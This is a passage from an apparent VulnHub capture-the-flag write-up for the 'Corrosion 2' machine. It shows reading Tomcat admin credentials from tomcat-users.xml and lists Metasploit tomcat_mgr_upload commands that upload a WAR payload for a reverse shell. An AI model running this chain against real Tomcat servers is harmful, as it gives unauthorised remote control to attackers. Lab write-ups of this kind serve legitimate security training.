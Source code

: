 tomcat store user credentials inside `tomcat-users.xml` file let's get inside this file and find password for any admin user. Than we can upload war payload to get reverse shell over the corrision-2 machine.

![[]](/assets/img/vulnhub/corrosion/corrosion-2/img_2.png)

## Web exploitation

we can try this username and password if we can access tomcat server.
![[]](/assets/img/vulnhub/corrosion/corrosion-2/img_3.png)
with admin credentials we can access tomcat server let's create war payload and upload this , than run and get reverse shell.

### Get reverse Shell over Tomcat

we can create war payload with MSFvenom and upload this payload to tomcat , or we can directly use Metasploit for do all this job for us.
i will do with Metasploit you can do another way too.

```
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost 192.168.238.10
msf exploit(multi/http/tomcat_mgr_upload) > set rport 8080
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > set FingerprintCheck false
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```

